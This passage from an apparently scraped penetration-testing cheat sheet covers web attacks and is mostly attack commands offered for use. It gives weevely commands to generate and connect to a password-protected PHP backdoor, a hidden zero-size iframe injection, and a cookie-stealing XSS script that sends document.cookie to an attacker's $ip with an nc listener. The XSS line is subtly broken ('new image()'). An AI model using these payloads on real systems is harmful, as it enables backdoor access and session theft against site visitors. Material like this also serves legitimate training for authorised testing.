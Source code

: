     - Web Shag Web Application Vulnerability Assessment Platform

webshag-gui

    - Web Shells

[*http://tools.kali.org/maintaining-access/webshells*](http://tools.kali.org/maintaining-access/webshells)

ls -l /usr/share/webshells/

    - Generate a PHP backdoor (generate) protected with the given password (s3cr3t)

weevely generate s3cr3t
weevely http://$ip/weevely.php s3cr3t

    - Java Signed Applet Attack
    - HTTP / HTTPS Webserver Enumeration
        - OWASP Dirbuster
        - nikto -h $ip
    - Essential Iceweasel Add-ons

Cookies Managerhttps://addons.mozilla.org/en-US/firefox/addon/cookies-manager-plus/

Tamper Data
https://addons.mozilla.org/en-US/firefox/addon/tamper-data/

    - Cross Site Scripting (XSS)

significant impacts, such as cookie stealing and authentication bypass, redirecting the victim’s browser to a malicious HTML page, and more

    - Browser Redirection and IFRAME Injection

<iframe SRC="http://$ip/report" height = "0" width ="0"></iframe>

    - Stealing Cookies and Session Information

<script>
new image().src="http://$ip/bogus.php?output="+document.cookie;
</script>
nc -nlvp 80
-

## [![](data:image/svg+xml,%3csvg xmlns='http://www.w3.org/2000/svg' class='octicon octicon-link js-evernote-checked' viewBox='0 0 16 16' version='1.1' width='16' height='16' aria-hidden='true' data-evernote-id='76'%3e%3cpath fill-rule='evenodd' d='M7.775 3.275a.75.75 0 001.06 1.06l1.25-1.25a2 2 0 112.83 2.83l-2.5 2.5a2 2 0 01-2.83 0 .75.75 0 00-1.06 1.06 3.5 3.5 0 004.95 0l2.5-2.5a3.5 3.5 0 00-4.95-4.95l-1.25 1.25zm-4.69 9.64a2 2 0 010-2.83l2.5-2.5a2 2 0 012.83 0 .75.75 0 001.06-1.06 3.5 3.5 0 00-4.95 0l-2.5 2.5a3.5 3.5 0 004.95 4.95l1.25-1.25a.75.75 0 00-1.06-1.06l-1.25 1.25a2 2 0 01-2.83 0z' data-evernote-id='2376' class='js-evernote-checked'%3e%3c/path%3e%3c/svg%3e)](https://github.com/m0chan/pwk-cheatsheet#file-inclusion-vulnerabilities)File Inclusion Vulnerabilities
